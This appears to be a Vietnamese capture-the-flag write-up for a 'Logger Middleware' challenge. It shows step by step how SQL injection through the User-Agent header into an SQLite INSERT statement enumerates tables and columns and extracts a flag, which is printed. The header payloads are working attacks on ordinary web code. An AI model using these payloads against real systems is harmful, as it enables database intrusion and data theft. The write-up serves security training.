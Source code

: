 <h1>Logger Middleware</h1>

```
6 trường: IP, User-agent, Referer, Url, Cookie, Timestamp được ghi vào database mỗi khi có người truy cập

Database: Sqlite
```
![](./img/1.png)

### Thay đổi dữ liệu của <b>User-agent</b> ta nhận được lỗi
```
User-Agent: Mozilla'
```
![](./img/2.png)

#### Truy vấn có cú pháp:
```sql
INSERT INTO logger (ip_address, user-agent, referer, url, cookie, created_at)
VALUES ('ip_address', 'user-agent', 'referer', 'url', 'cookie', 'created_at');
```
### Cách Bypass:
```sql
INSERT INTO logger (ip_address, user-agent, referer, url, cookie, created_at)
VALUES ('ip_address', 'user-agent', (select 'i am ngn'), null, null, null)/*;
```
```
user-agent: Mozilla',(select 'i am ngn'),null,null,null)/*
```
![](./img/3.png)

### Tìm tên bảng chứa flag.
```
user-agent: Mozilla',(select tbl_name as table_name from sqlite_schema),null,null,null)/*
=> Bảng đầu tiên tìm được 1 bảng là logger.
```
![](./img/4.png)
```
user-agent: Mozilla',(select tbl_name as table_name from sqlite_schema),null,null,null) limit 1,1/*
=> Bảng tiếp theo là flag.
```
![](./img/5.png)

### Tìm tên cột chứa flag
```
User-Agent: Mozilla',(select name from pragma_table_info('flag') limit 1,1),null,null,null)/*
=> Tìm được tên cột là: secr3t_flag
```
![](./img/6.png)

### Tìm flag

```
User-Agent: Mozilla',(select secr3t_flag from flag),null,null,null)/*
```
![](./img/7.png)

```
Flag: CHH{L0G9eR_5QL1_in_uPdaTe_2760699c35be174900981a88f9bfaa43}	
```